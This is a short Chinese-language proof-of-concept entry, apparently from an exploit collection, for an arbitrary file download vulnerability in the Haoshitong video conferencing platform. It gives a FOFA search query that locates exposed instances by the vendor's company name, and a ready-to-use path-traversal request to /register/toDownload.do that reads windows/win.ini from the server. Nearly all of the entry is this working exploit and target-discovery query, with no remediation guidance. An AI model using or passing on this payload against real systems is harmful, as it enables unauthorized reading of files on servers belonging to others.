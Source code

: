 # 好视通视频会议平台 任意文件下载漏洞

## 网络测绘

fofa: "深圳银澎云计算有限公司"

## POC / EXP

```
/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini
```
